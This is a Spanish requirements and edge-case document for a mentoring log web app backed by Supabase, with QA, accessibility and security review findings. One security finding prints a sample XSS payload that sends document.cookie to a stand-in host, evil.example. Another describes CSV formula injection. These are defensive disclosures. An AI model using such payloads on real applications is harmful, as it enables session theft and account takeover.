

# Bitácora del Mentor — Requerimientos

> Documento base generado por el Analista de Negocio (BA). Derivado de la lectura completa del código fuente de `bitacora-mentor.html` (2065 líneas), `auth-gate.js` y `supabase-client-app.js`, y de una sesión real navegando la pantalla de acceso en el navegador.
>
> **Aviso de cobertura de evidencia:** la pantalla de inicio de sesión fue navegada y capturada en vivo. El resto de las pantallas descritas aquí (Mentoría, Grupos, Plantillas, Base de datos, Reportes y todos los modales) **no pudieron navegarse en vivo** porque la app exige una sesión válida de Supabase y no se dispone de credenciales de prueba. Esas secciones están documentadas a partir de la lectura línea por línea del código (`render*`, funciones de guardado, validaciones), no de observación visual directa. Donde el código deja algo ambiguo, se anota como caso borde en vez de asumir un comportamiento.

## Propósito del app

Bitácora del Mentor es una herramienta personal para que un mentor lleve el registro de sus mentorías: quiénes son sus mentees (individuales o en grupo), qué se conversó en cada sesión, qué compromisos quedaron pendientes, y cómo evoluciona cada proceso a lo largo del tiempo. Además de las sesiones, permite guardar plantillas de preguntas reutilizables para estructurar las sesiones, filtrar y buscar a todos los mentees en una vista de "base de datos", y ver reportes agregados (cuántas personas ha ayudado, tasa de objetivos logrados, sesiones por enfoque, etc.). Los datos se guardan en la nube (Supabase) asociados a la cuenta del mentor que inició sesión, con una copia en caché en el navegador y, opcionalmente, una copia adicional en una carpeta local del computador.

## Requerimientos funcionales

### Acceso / autenticación
1. La app está protegida por una pantalla de inicio de sesión (correo + contraseña) que se muestra antes de cargar cualquier dato; no existe opción de "crear cuenta" visible en el formulario (solo inicio de sesión y recuperación de contraseña).
2. Si las credenciales son incorrectas, se muestra el mensaje "Correo o contraseña incorrectos." y el formulario permanece disponible para reintentar.
3. El enlace "¿Olvidaste tu contraseña?" cambia el formulario a modo de recuperación (título "Recuperar contraseña", botón "Enviar enlace"); al enviarlo, se invoca `resetPasswordForEmail` de Supabase y se muestra "Revisa tu correo para continuar." (Verificado leyendo `auth-gate.js`; no se pudo confirmar visualmente el cambio de formulario porque los clics sobre el enlace no lograron activarse durante la sesión de prueba — ver Casos borde).
4. Cada app del hub (Bitácora del Mentor, StaffGate, LP Bag, MyTravel, Gantt) usa una sesión de Supabase completamente independiente (`storageKey` distinto por app), por lo que iniciar sesión en una app no da acceso a las demás.
5. Al iniciar sesión correctamente, la página se recarga y se cargan los datos del usuario autenticado (mentees, sesiones, grupos, sesiones grupales, plantillas) desde la tabla `app_data` de Supabase, filtrados por su `user_id`.

### Persistencia de datos
6. Mientras hay sesión activa, cada cambio (crear/editar/eliminar mentee, sesión, grupo, plantilla, etc.) se guarda automáticamente: primero en `localStorage` del navegador y luego se sincroniza a Supabase (tabla `app_data`, una fila por usuario y por app).
7. Si falla la sincronización con la nube, el cambio queda guardado localmente igual y se registra una advertencia en la consola del navegador (no se informa al usuario mentor en pantalla que la nube falló).
8. Si el navegador es Chrome o Edge, la app ofrece un botón adicional ("Conectar carpeta de datos" / badge inferior derecho) para vincular una carpeta local del computador donde se guarda una copia adicional del archivo `bitacora-mentor.data.json`, independiente de la nube.
9. Sin sesión de Supabase confirmada, la app no carga datos reales en memoria ni en pantalla, aunque existan datos cacheados de una sesión anterior en ese navegador.

### Gestión de mentees (pestaña "Mentoría")
10. El panel lateral lista los mentees agrupados por nivel (Principiante, Intermedio, Avanzado), ordenados alfabéticamente dentro de cada grupo, con buscador por nombre.
11. Cada mentee en la lista muestra: iniciales como avatar, un punto de color según su estado (activo/pausa/cerrado), su nombre, una etiqueta "1-2 sesiones" si es de tipo "consulta puntual", y una etiqueta "inactivo" si aplica (ver requerimiento 15).
12. Para crear un mentee se requiere como mínimo un nombre; si el área o el objetivo quedan vacíos, se guardan automáticamente como "Sin especificar" sin mensaje de error al usuario.
13. Los campos del mentee son: nombre, área, nivel, tipo de mentoría (seguimiento continuo / consulta puntual), estado (activo/pausa/cerrado), resultado final (solo relevante si está cerrado), estilo de aprendizaje, objetivo principal, teléfono, correo, país y notas de progresión — todos excepto nombre son opcionales o tienen valor por defecto.
14. Cambiar el estado de un mentee a "cerrado" registra automáticamente una fecha de cierre (`closedAt`); cambiarlo de "cerrado" a cualquier otro estado borra esa fecha.
15. Un mentee se marca como "inactivo" solo si su estado es "activo" Y su tipo es "seguimiento continuo" Y han pasado más de 30 días desde su última sesión registrada (o desde su fecha de creación si nunca ha tenido sesiones). Se muestra tanto la etiqueta en la lista como un banner de alerta en su perfil.
16. Eliminar un mentee borra también todo su historial de sesiones individuales; se pide confirmación y aparece un aviso con botón "Deshacer" disponible por unos segundos que restaura al mentee y sus sesiones exactamente como estaban.

### Sesiones individuales
17. Desde el perfil de un mentee se puede "+ registrar sesión": fecha (por defecto hoy), enfoque usado (directivo/socrático/colaborativo), tema tratado, qué funcionó, qué ajustar, próximos pasos, un compromiso/acción pendiente, y opcionalmente una plantilla de preguntas clave.
18. Guardar una sesión como "final" exige que el campo "Tema tratado" no esté vacío; guardarla como "borrador" no exige ningún campo.
19. Las sesiones se listan en orden cronológico descendente (más reciente primero) en el perfil del mentee, cada una con un número de sesión consecutivo (calculado por orden cronológico ascendente, no por orden de creación).
20. Un compromiso registrado en una sesión se puede marcar como cumplido/no cumplido con una casilla directamente en la línea de tiempo, sin necesidad de abrir el modal de edición; el cambio se guarda de inmediato.
21. El contador de "pendientes" que aparece junto al nombre del mentee cuenta todas las sesiones (incluyendo borradores) que tienen un compromiso registrado y no marcado como cumplido.
22. Un borrador se puede "continuar" (reabre el modal con los datos guardados) para completarlo y guardarlo como sesión final.
23. Eliminar una sesión pide confirmación y ofrece "Deshacer" por unos segundos.
24. Si se aplica una plantilla al registrar la sesión, se genera un checklist propio de esa sesión (copiado de los ítems de la plantilla en ese momento); cambios posteriores o eliminación de la plantilla no afectan checklists ya guardados en sesiones pasadas.

### Grupos de mentoría (pestaña "Grupos")
25. Se pueden crear grupos de mentoría con nombre (obligatorio), descripción opcional, e integrantes seleccionados de la lista de mentees ya registrados (si no hay mentees creados todavía, el modal lo indica y no permite seleccionar integrantes).
26. El perfil de grupo muestra sus integrantes como chips, un contador de compromisos pendientes, y su propio historial de sesiones grupales.
27. Las sesiones grupales tienen los mismos campos que las individuales (fecha, enfoque, tema, qué funcionó/ajustar, próximos pasos, compromiso) EXCEPTO que no soportan plantillas/checklist y no muestran un número de sesión consecutivo en la línea de tiempo.
28. Un grupo se considera "inactivo" si han pasado más de 30 días desde su última sesión grupal registrada (o desde su creación); a diferencia de los mentees individuales, esta regla no depende de ningún estado del grupo, porque los grupos no tienen campo de estado (activo/pausa/cerrado).
29. Eliminar un grupo borra también todas sus sesiones grupales; pide confirmación y ofrece "Deshacer".

### Plantillas de preguntas (pestaña "Plantillas")
30. Una plantilla tiene un nombre y una lista de ítems, cada uno de tipo "casilla (sin respuesta)" o "pregunta con respuesta". Se requiere al menos un ítem con texto para guardar.
31. Las plantillas solo se pueden aplicar al registrar/editar sesiones individuales, no sesiones grupales.
32. Eliminar una plantilla pide confirmación (advirtiendo que las sesiones que ya la usaron conservan su checklist), pero a diferencia de las demás eliminaciones del app, **no ofrece opción de deshacer**.

### Base de datos (pestaña "Base de datos")
33. Muestra una tabla de **mentees individuales únicamente** (no incluye grupos) con columnas: nombre, área, país, nivel, tipo, estado, teléfono, correo, cantidad de sesiones y cantidad de pendientes.
34. Permite filtrar por nombre, área (texto libre), país, nivel, tipo y estado; permite ordenar por cualquier columna (clic en el encabezado alterna ascendente/descendente); pagina de 15 en 15 filas.
35. Al hacer clic en una fila se navega a la pestaña "Mentoría" con ese mentee seleccionado.

### Reportes (pestaña "Reportes")
36. Muestra métricas totales de todo el histórico (sin filtro de fecha/rango): personas ayudadas, mentorías registradas (individuales + grupales + borradores), grupos de mentoría, tasa de objetivos logrados (solo sobre mentees con estado "cerrado"), y mentees activos actualmente.
37. Incluye gráficos de barras por: estado de los mentees, resultados de mentorías cerradas, área (top 8), tipo de mentoría, nivel, y enfoque usado en las sesiones — este último combina sesiones individuales y grupales, **incluyendo las que están en estado borrador**.

### Exportación / respaldo
38. "Exportar CSV" y "Exportar Excel" generan una tabla combinada con una fila por sesión (individual o grupal) de cada mentee/grupo, incluyendo datos del mentee/grupo repetidos en cada fila; si un mentee o grupo no tiene sesiones, genera una fila con los campos de sesión vacíos. Si no hay ningún mentee ni grupo, muestra un aviso de que no hay datos para exportar.
39. "Copia de seguridad" descarga un archivo JSON (`bitacora-mentor-backup.json`) con el estado completo de la app (mentees, sesiones, grupos, sesiones grupales, plantillas).
40. "Importar copia" permite subir un archivo JSON de respaldo; si tiene el formato esperado (contiene arreglos `mentees` y `sessions`), **reemplaza por completo el estado actual de la app** con el contenido del archivo importado, sin pedir confirmación previa y sin ofrecer "deshacer".

## Flujo de trabajo

```mermaid
flowchart TD
    A[Abrir bitacora-mentor.html] --> B{"¿Sesión de Supabase activa?"}
    B -- No --> C["Pantalla de inicio de sesión\n(verificada en vivo)"]
    C --> C1["Modo login: correo + contraseña"]
    C --> C2["Modo recuperación: solo correo\n(enlace '¿Olvidaste tu contraseña?')\n[derivado del código, no verificado en vivo]"]
    C1 -- credenciales correctas --> D[Recarga la página]
    C1 -- credenciales incorrectas --> C1
    C2 -- enviar --> C2a["Mensaje: revisa tu correo"]
    D --> B
    B -- Sí --> E["App carga datos del usuario\n(mentees, sesiones, grupos, plantillas)"]
    E --> F["Pestaña Mentoría (por defecto)"]

    F --> F1["Lista de mentees agrupada por nivel"]
    F1 --> F2["Seleccionar mentee → ver perfil"]
    F1 --> F3["+ nuevo mentee → modal alta"]
    F2 --> F4["+ registrar sesión → modal sesión"]
    F4 -- "Guardar como borrador" --> F5["Sesión en estado borrador"]
    F4 -- "Guardar sesión (requiere tema)" --> F6["Sesión final en la línea de tiempo"]
    F5 -- "continuar borrador" --> F4
    F2 --> F7["editar datos / eliminar mentee"]
    F2 --> F8["marcar compromiso cumplido"]
    F2 --> F9["cambiar estado activo/pausa/cerrado"]

    E --> G["Pestaña Grupos"]
    G --> G1["Lista de grupos"]
    G1 --> G2["Seleccionar grupo → ver perfil"]
    G1 --> G3["+ nuevo grupo → modal alta\n(elige integrantes de mentees existentes)"]
    G2 --> G4["+ registrar sesión grupal"]
    G4 -- borrador/final --> G5["Sesión grupal en línea de tiempo"]

    E --> H["Pestaña Plantillas"]
    H --> H1["Crear / editar / eliminar plantilla"]
    H1 -.aplicable solo a.-> F4

    E --> I["Pestaña Base de datos"]
    I --> I1["Tabla de mentees con filtros y orden"]
    I1 -- clic en fila --> F2

    E --> J["Pestaña Reportes"]
    J --> J1["Métricas y gráficos de barras (todo el histórico)"]

    F1 --> K["Exportar CSV / Excel\n(incluye individuales y grupales)"]
    F1 --> L["Copia de seguridad (backup JSON)"]
    F1 --> M["Importar copia\n(REEMPLAZA todo el estado sin confirmar)"]
```

## Casos borde

Cada uno de estos requiere una decisión del tech lead antes de convertirse en un cambio de código; aquí solo se documentan como observados.

1. **Importar copia de seguridad no pide confirmación ni ofrece deshacer.** A diferencia de todas las eliminaciones (mentee, sesión, grupo, sesión grupal), que muestran un diálogo de confirmación y un "Deshacer" temporal, `importBackup()` reemplaza el `state` completo apenas el archivo tiene el formato mínimo esperado (arreglos `mentees` y `sessions`). Un clic accidental en el archivo equivocado borra todos los datos actuales sin posibilidad de recuperarlos desde la propia app.

2. **Eliminar una plantilla no ofrece "Deshacer"**, a diferencia de mentee/sesión/grupo/sesión grupal, que sí lo ofrecen. Puede ser intencional (las plantillas no tienen historial asociado) pero rompe la consistencia de patrón de eliminación en el resto de la app.

3. **Los borradores de sesión "cuentan" en varios lugares donde tal vez no debieran.** Una sesión en estado `draft` (incluso sin tema, sin contenido) ya: (a) actualiza la fecha de "última actividad" del mentee, lo que puede ocultar la alerta de "inactivo" aunque no haya mentoría real; (b) suma al contador de "Sesiones" en la Base de Datos; (c) suma al total de "Mentorías registradas" en Reportes (aunque se desglosa aparte cuántas son borrador); y (d) si tiene un compromiso cargado, cuenta en el badge de "pendientes" del mentee. Falta definir si estos comportamientos son los deseados o si los borradores deberían excluirse de alguno de estos cálculos.

4. **Los campos "Área" y "Objetivo" del mentee no son obligatorios y no muestran ningún aviso al guardarse vacíos** (se autocompletan en silencio con el texto "Sin especificar"), mientras que "Nombre" sí muestra un toast de error si está vacío. Esto puede generar inconsistencia en los reportes por área (todo lo no especificado cae en un mismo cubo "Sin especificar") sin que el mentor se entere de que quedó incompleto.

5. **"Base de datos" no incluye grupos.** La pestaña se llama "Base de datos" y presenta filtros/orden/paginación, pero solo lista mentees individuales; no hay ninguna vista equivalente (tabla filtrable/ordenable) para los grupos de mentoría, aunque sí existen en el resto de la app (Grupos, Reportes, exportaciones).

6. **La pestaña "Grupos" no tiene sus propios botones de exportar/backup.** Los grupos y sus sesiones sí se incluyen en el CSV/Excel/backup que se generan desde la pestaña "Mentoría", pero un usuario que solo mire la pestaña "Grupos" no encontrará ahí ninguna opción de exportación, lo que puede no ser obvio.

7. ~~**Los grupos no tienen un campo de estado (activo/pausa/cerrado) como los mentees.**~~ **IMPLEMENTADO — commit `8fdcdd5` (2026-08-12), verificado con ejecución real por qa-lead el mismo día.** Los grupos ahora tienen `status` (`'activo'`/`'cerrado'`) y `closedAt`, con dos caminos para cambiarlo (botón en la ficha y campo Estado del modal de edición, confirmados consistentes entre sí) y bajan a un apartado "Grupos pasados" al cerrarse. No incluye un tercer estado "pausa" equivalente al de mentees — solo activo/cerrado — lo cual parece suficiente para el pedido original de la usuaria (grupos "cerrados/completados"). Detalle en `docs/bitacora-mentor/qa-checklist.md` ("2026-08-12").

8. **Cambiar el estado de un mentee de "cerrado" a otro estado no limpia el campo "Resultado final" (`outcome`).** El valor anterior queda guardado (aunque deja de mostrarse en el perfil mientras no esté "cerrado") y reaparecerá si el mentee se vuelve a cerrar sin que el mentor lo revise, pudiendo registrar un resultado desactualizado.

9. **El "candado" de acceso es solo visual, no de datos.** La estructura HTML de la app detrás de la pantalla de login (pestañas, botones "+nuevo mentee", etc.) está presente en el DOM y es detectable por herramientas de accesibilidad aun con el overlay de login cubriéndolo visualmente (confirmado durante esta sesión: el lector de accesibilidad del navegador encontró los botones de pestañas mientras la pantalla de login seguía visible en pantalla). El código sí evita cargar datos reales sin sesión confirmada (`storageAdapter.get` devuelve `null` sin sesión), por lo que no parece haber fuga de datos, pero vale que el tech lead confirme que ningún dato sensible (nombres, temas de sesión) queda accesible por esta vía antes de descartar el hallazgo.

10. **El respaldo local en carpeta ("folder bridge") no está vinculado al usuario de Supabase que inició sesión.** Es un mecanismo aparte que espeja la clave `localStorage['ledger-data']` a un archivo `bitacora-mentor.data.json` en una carpeta del computador, sin relacionarlo con el `user_id`. Si dos mentores distintos usan el mismo computador/navegador con esa carpeta conectada, el archivo local podría mezclar o sobrescribirse entre cuentas. Falta decidir si este mecanismo debe quedar restringido a un solo usuario por máquina o si debe evitarse su uso en equipos compartidos.

11. **No se pudo verificar visualmente el modo "Recuperar contraseña" del login.** El enlace "¿Olvidaste tu contraseña?" existe y su comportamiento fue confirmado leyendo `auth-gate.js`, pero los clics automatizados sobre el enlace durante la prueba en navegador no lograron activarlo (posiblemente por cómo el clic cae sobre el `shadow DOM` del componente de login). No es un hallazgo de la app en sí, sino una limitación de esta sesión de verificación; se recomienda una verificación manual puntual antes de dar el flujo de recuperación por probado end-to-end.

12. **El botón "Guardar sesión" (final) exige tema, pero no exige enfoque, compromiso ni ningún otro campo.** Es válido registrar una sesión final con solo la fecha y el tema, dejando "qué funcionó", "qué ajustar" y "próximos pasos" completamente vacíos. Puede ser el comportamiento deseado (campos opcionales por diseño), pero se documenta para que el tech lead confirme que no falta ninguna validación mínima de calidad de registro.

13. **(accessibility-reviewer, 2026-07-28, rama `claude/widget-cuenta-y-botones-mentor`) El widget compartido de Cuenta (`auth-gate.js`, las 5 apps) salta ~190px hacia arriba al abrir su panel, desde que se cambió su ancla de `top:14px` a `bottom:calc(61px + var(--aiapps-chrome-bottom,0px))` para apilarlo sobre la insignia de carpeta.** Verificado por trazado exacto del modelo de caja CSS (no en vivo — sin JS eval en esta sesión): con `bottom` fijo y altura automática, el crecimiento del contenido (panel desplegado) extiende la caja hacia arriba en vez de hacia abajo, así que el botón "👤 Cuenta" (primer hijo de la caja) se reposiciona cada vez que se abre/cierra el panel — con el ancla `top` anterior esto no pasaba. El badge de pendientes de esta app no se ve afectado (elemento distinto), pero el widget de Cuenta sí, igual que en las otras 4 apps. Detalle completo y recomendación de arreglo (una sola regla CSS) en `docs/staffgate/accessibility-notes.md` §2. *Decisión pendiente: aplicar el arreglo sugerido (flex column-reverse en el host) o aceptar el salto como comportamiento conocido.*

13. **(qa-lead, 2026-07-24) La corrección de mezcla de cuentas (commit `e421ee8`) hace invisibles, de forma permanente y silenciosa, los datos que ya existían en la clave `localStorage['ledger-data']` sin aislar, de antes de este cambio.** Confirmado con evidencia directa en esta sesión: `localStorage.getItem('ledger-data')` en `file:///bitacora-mentor.html` todavía contiene datos reales de una prueba anterior (un mentee "Prueba" con una sesión fechada 20/07/2026, de antes de que este fix se aplicara el 23/07/2026). Con el código nuevo, `storageAdapter.get()` ya nunca lee la clave vieja `ledger-data` — solo lee `ledger-data::<userId>` cuando hay sesión. Si una cuenta real inició sesión antes de este cambio y guardó datos solo localmente (sin fila todavía en `app_data` de Supabase), al volver a entrar después de este fix esa persona vería la app vacía, con sus datos anteriores atrapados de forma inaccesible en la clave vieja (nunca se borran, pero tampoco se vuelven a leer por ninguna ruta del código actual). No es lo mismo que la "ventana de carrera" ya documentada por security-reviewer en el punto 12 de este mismo archivo (esa es sobre datos nuevos que se escriben mal *después* del fix); esto es sobre datos *anteriores* al fix que quedan huérfanos con certeza, no por una carrera de milisegundos. Mismo patrón de diseño aplicado también a StaffGate, LP-Bag y MyTravel (no se encontró evidencia de datos huérfanos reales en esos tres en esta sesión, pero la misma lógica de código aplicaría igual si algún usuario real tuviera caché local previa sin fila en la nube). *Decisión pendiente: ¿vale la pena un script de migración de una sola vez (copiar `key` → `key::userId` en el primer login post-fix) antes de que esto le pase a un usuario real, o se acepta el riesgo por ser bajo volumen (hub personal, pocos usuarios)?*

14. **(qa-lead, 2026-07-27) Al agregar el `<meta name="viewport">` que faltaba (commit `bdf722a`), todos los campos de formulario de la app quedan expuestos por primera vez al auto-zoom de iOS Safari al enfocarlos.** Confirmado por grep que ningún `<input>`/`<select>`/`<textarea>` de la app llega a 16px de `font-size` (rango real: 12.5px–13.5px, en `.search-wrap input`, `.field input/select/textarea`, `.tpl-item-row input`, `.checklist-q input`, `.db-filters input/select`). Ese es exactamente el umbral que usa Safari en iOS para decidir si hace zoom automático al enfocar un campo — comportamiento que depende de que la página tenga un viewport real, así que **antes de este commit nunca podía dispararse** (la página no tenía `<meta name="viewport">`). No verificado en vivo en esta sesión (el navegador de prueba es Chromium y no reproduce ese comportamiento específico de WebKit); no es un defecto del commit en sí (el meta tag es correcto y necesario), pero es una ruta de código que nunca se había ejercitado en producción y ahora sí puede hacerlo en un iPhone real. Pendiente: probar en un iPhone real si el zoom-on-focus ocurre y, si molesta, subir `font-size` a 16px en esos selectores (cambio cosmético menor, no relacionado con este commit).

16. **(qa-lead, 2026-07-29, rama `claude/mentor-sesiones-editables-y-checklist`) Editar y guardar una sesión de GRUPO con más de un compromiso o más de un enfoque borra silenciosamente todo excepto el primero de cada lista, sin ninguna advertencia.** El modal de sesión de grupo (`renderModal()`, `modal==='groupSession'`) sigue con un `<select>` de enfoque único y un solo campo de texto de compromiso — eso es incompletitud ya declarada y no se reporta como hallazgo en sí. Lo nuevo: `collectGroupSession()` construye el objeto a guardar solo con `approach`/`commitment`/`commitmentDone` (nunca reconstruye `approaches`/`commitments`), y el guardado hace `state.groupSessions[idx] = sess` — un reemplazo completo del objeto, no un merge. Si la sesión de grupo que se está editando ya tenía `commitments`/`approaches` con 2+ ítems, esos ítems desaparecen del objeto guardado sin dejar rastro y sin que el modal muestre en ningún momento que existían. Reproducido en vivo: sesión con 2 compromisos y 2 enfoques → tras abrir "Editar sesión grupal" y pulsar "Guardar sesión" sin tocar nada, queda con exactamente 1 de cada uno. **Por qué es alcanzable hoy:** el uso 100% orgánico de la app (crear/editar un grupo desde sus propios formularios) nunca produce más de 1 ítem por lista para una sesión de grupo, así que el bug no se dispara solo usando la interfaz. Sí es alcanzable combinando "Importar copia" (que reemplaza el estado con cualquier JSON que tenga el formato mínimo esperado, sin validar el contenido interno de cada sesión — ver caso borde 1) con la nueva opción "editar" en sesiones de grupo ya finalizadas, expuesta por primera vez en esta misma rama (antes de `fa22eb9`, una sesión de grupo no-borrador no se podía volver a guardar, así que este dato nunca podía truncarse en la práctica). *Decisión pendiente: ¿ampliar el modal de grupo a listas antes de soltar esto a producción, o aceptar el riesgo dado que requiere una importación con datos ya en formato de lista?*

17. **(accessibility-reviewer, 2026-07-29, rama `claude/mentor-sesiones-editables-y-checklist`) El chip de enfoque "apagado" tiene un borde casi invisible (1.46:1 de contraste contra el fondo blanco del modal), muy por debajo del 3:1 exigido para componentes de UI no textuales (WCAG 1.4.11).** Calculado con la fórmula WCAG de luminancia relativa sobre `--line` (#D8D6C8) contra `--surface` (#FFFFFF), los colores reales de `bitacora-mentor.html:266`. El texto del chip inactivo (`--muted` sobre blanco) también queda corto para AA: 4.40:1 contra el 4.5:1 exigido para texto normal, mismo tipo de déficit pequeño-pero-real que el badge de pendientes ya reportado. El estado activo sí pasa ambos umbrales (texto 6.52:1, borde 4.00:1). *Decisión pendiente: ¿ajustar `--line`/agregar un fondo sutil solo para el chip inactivo, o aceptar que el borde de apoyo sea débil porque el texto (aunque también corto) sigue siendo la pista principal?*

18. **(accessibility-reviewer, 2026-07-29, misma rama) El botón "quitar" de un compromiso, dentro del modal de edición, no devuelve el foco a ningún control al eliminarse — el foco cae a `<body>`.** `renderCommits()` reemplaza el contenido del listado por completo sin ninguna llamada a `.focus()` (a diferencia de "agregar", que sí hace `inp.focus()`), así que quien navega con teclado pierde su posición exacta dentro del modal cada vez que quita un compromiso y debe re-tabular desde el campo "Fecha". Es una regresión nueva de esta rama (la función es enteramente nueva), no heredada. *Decisión pendiente: agregar `overlay.querySelector('#s-commitment').focus()` al final del handler de `data-cdel`, mismo patrón ya usado en `addCommit()`.*

19. **(accessibility-reviewer, 2026-07-29, misma rama) Marcar/desmarcar un compromiso desde la tarjeta de sesión (no el modal) dispara un `render()` completo de toda la app y pierde el foco — patrón preexistente, pero ahora se repite más veces por sesión.** Confirmado por `git diff` que el patrón (`checkbox.onchange` → `saveData()` → `render()` de nivel más alto, que reescribe hasta la barra de pestañas) ya existía antes de esta rama para el único compromiso que cabía por sesión. Como ahora puede haber varios compromisos por sesión, alguien que quiera marcar 3 seguidos pierde el foco una vez por cada clic en vez de una sola vez en total. No es un defecto nuevo en su causa raíz (transversal a toda la app), pero esta rama lo hace más frecuente en este flujo. *Decisión pendiente: fuera de alcance de un fix puntual — requeriría que `render()` deje de reescribir toda la página en cambios menores, un cambio de arquitectura, no algo para resolver solo en esta rama.*

15. **(accessibility-reviewer, 2026-07-27, ampliando el caso borde 14) El auto-zoom de iOS es una mejora neta sobre la línea base, no un empeoramiento, y el mismo patrón ya está expuesto hoy en producción en otras 2 apps del hub.** Medido en vivo a 375×812: antes del commit, un campo de 13.5px se veía a `13.5×0.3826≈5.2px` físicos (con la página entera encogida al 38%); después, se ve a sus 13.5px reales. Si el auto-zoom de iOS llega a dispararse, agranda un texto que ya es más legible que antes, no al revés — no lo considero una regresión. Además, LP-Bag (`.form-inp` 14px, `.csel` 13px — el formulario principal de "agregar gasto") y StaffGate (`.search-input` 12px, `.notes-ta` 13px, `.tpl-inp` 12px) **ya tienen `<meta name="viewport">` desde antes** y controles bajo 16px, así que el mismo mecanismo ya está activo hoy en esas dos apps, no es un riesgo nuevo introducido por Bitácora. Recomendación si se decide subir a 16px: acotarlo a los selectores de formulario reales (`.search-wrap input`, `.field input/select/textarea`, `.tpl-item-row input/select`, `.checklist-q input`, `.db-filters input/select`), no a badges/etiquetas que comparten el mismo rango de `font-size` pero no son objeto de auto-zoom. Medido también, sin relación directa con el punto anterior pero dentro del mismo commit: el botón "✕" de eliminar ítem de plantilla (`.tpl-item-remove`) mide **27.0×23.4px** reales a 375px — 0.6px por debajo del umbral de 24×24 CSS px de WCAG 2.2 SC 2.5.8 (objetivo táctil mínimo); preexistente, no introducido por este commit, y no se verificó si aplica la excepción de espaciado de la propia norma. Y el estado del mentee en la lista lateral (`.status-dot`, línea 933) se comunica **solo por color** (verde/naranja/gris), sin `title`/`aria-label` ni texto equivalente en esa vista — preexistente, relevante para quien trabaje contraste/uso-del-color en esta app. Detalle completo de las tres mediciones en `docs/bitacora-mentor/accessibility-notes.md` ("2026-07-27 — Revisión: commit `bdf722a`").

20. **(security-reviewer, 2026-07-29, rama `claude/mentor-sesiones-editables-y-checklist`) `esc()` (`bitacora-mentor.html:709-713`) no escapa comillas — confirmado con ejecución real, no lectura de código — y esta rama agrega/ensancha el alcance de sitios donde ese texto se interpola dentro de un atributo `value=`/`aria-label=`.** Probé el `esc()` real del archivo con un DOM auténtico (`ActiveXObject("htmlfile")`/mshta en `documentMode:11`, con `textContent` real, no una emulación): escapa `&`, `<`, `>` correctamente, pero un carácter `"` o `'` pasa intacto. Con el payload `quote-break" onmouseover="alert(1)` la salida es idéntica al input, comillas incluidas. Confirmado además que **es la única de las 5 apps del hub con este defecto** — `StaffGate.html:1081`, `lpbag.html:1238`, `generador_gantt_2.html:345` y `mytravel-pro-v4.html:1144` sí incluyen `.replace(/"/g,'&quot;')` en su propio `esc()`/`escHtml()`. Esta rama agrega un sitio nuevo de interpolación en atributo (`value="${esc(c.text)}"` en `renderCommits()`, modal de edición) y, en el trabajo sin commitear encima de esta rama al momento de esta revisión, dos más (`aria-label="...${esc(nombre)}"` ×2, mismo bloque). Además **ensancha el alcance** de un sitio ya existente antes de esta rama (`value="${esc(existingSession.topic)}"`): antes solo era alcanzable si una sesión ya guardada tenía `status:'draft'` (falseable solo importando un JSON a mano con ese valor); ahora "editar" alcanza esa misma plantilla para **cualquier** sesión ya finalizada. Camino de explotación real confirmado por lectura de `importBackup()` (`bitacora-mentor.html:2145-2170`): solo valida `Array.isArray(parsed.mentees)`/`Array.isArray(parsed.sessions)`, sin validar el contenido de cada sesión — un backup con `topic`/`commitments[].text` = `x" onfocus="fetch('https://evil.example/?c='+document.cookie)" autofocus="1` ejecutaría JS arbitrario en el origen de la app en cuanto se abra "editar" sobre esa sesión, con `window.supabaseClient` ya global y alcanzable para exfiltrar datos o cambiar la contraseña de la cuenta. Detalle completo, con la salida real del test, en `docs/security-notes.md` ("Revisión 2026-07-29"). *Pendiente de decisión: corregir `esc()` para que también escape comillas (una sola línea, cierra los ~18 sitios de la app a la vez) antes de fusionar.*

21. **(security-reviewer, 2026-07-29, misma rama) `migrarSesiones()` (`bitacora-mentor.html:601-617`, llamada desde `loadData()` fuera de su `try/catch`) revienta con `TypeError` si `state.sessions`/`state.groupSessions` contiene un elemento no-objeto (`null`, número, string), y ese `TypeError` deja `render()` sin ejecutarse — confirmado con un test real (JScript vía `mshta`, no solo lectura): tras la excepción, `render()` nunca se llama.** Como `loadData()` se invoca sin `await`/`.catch()` (`bitacora-mentor.html:2286`), el resultado es una promesa rechazada sin manejar: la app se queda sin pintar nada, sin ningún mensaje visible de error. Ruta real para producir ese dato: `importBackup()` no valida el contenido de `parsed.sessions`/`parsed.groupSessions` más allá de que sean arreglos — un backup con `"sessions":[null, {...}]` (JSON válido) pasa la validación y llega intacto a `migrarSesiones()`. Relacionado y no cubierto por la misma función: si `s.commitments` **ya** es un arreglo (p. ej. un backup que ya trae la forma nueva) pero con un ítem `null`/no-objeto, `migrarSesiones()` no lo toca (es idempotente, solo revisa `Array.isArray`), así que el dato malformado llega intacto hasta el render y revienta igual ahí (`c.done`/`c.text` sobre `null` dentro de `compromisosDe(s).map(...)`), con el mismo efecto de pantalla en blanco. *Pendiente de decisión: filtrar elementos no-objeto de `state.sessions`/`state.groupSessions`/`commitments` antes o dentro de `migrarSesiones()`, y/o envolver la llamada en su propio `try/catch` para que un dato roto no le cueste a la usuaria ver el resto de sus datos.*

23. **(security-reviewer, 2026-08-07, commit `9bf2e86`) La exportación (CSV y Excel) no neutraliza valores de texto que empiecen por `=`, `+`, `-` o `@` en ningún campo — el nuevo campo "Sobre el mentee" se suma a esta lista, no la crea.** `buildExportRows()` (`bitacora-mentor.html:2255-2310`) alimenta `Nombre`, `Area`, `Objetivo`, `'Sobre el mentee'`, `Tema`, `'Que funciono'`, `'Que ajustar'`, `'Proximos pasos'`, `Compromiso`, `Integrantes` (entre otros) sin ningún paso de saneo; `csvEscape()` (línea 2316-2320) solo envuelve en comillas si hay `"`, `,` o salto de línea, sin tocar el primer carácter del valor; `exportExcel()` (línea 2333-2345) pasa las filas tal cual a `XLSX.utils.json_to_sheet`. Si una mentora escribe (o un backup importado sin validar trae) un valor que empiece por `=`, puede convertirse en una fórmula al abrirse en Excel/Sheets — clásico "CSV/Excel formula injection". Ya documentado como riesgo aceptado, no bloqueante, desde el 2026-07-29 (con `s.approach` como ejemplo); reconfirmado en la revisión del commit `9bf2e86`. *Decisión pendiente: neutralizar (prefijo `'` o espacio) cualquier celda que empiece por esos 4 caracteres, para todos los campos de texto libre a la vez, priorizando `exportCSV()` por ser el formato con mayor riesgo real de interpretación al abrir.*

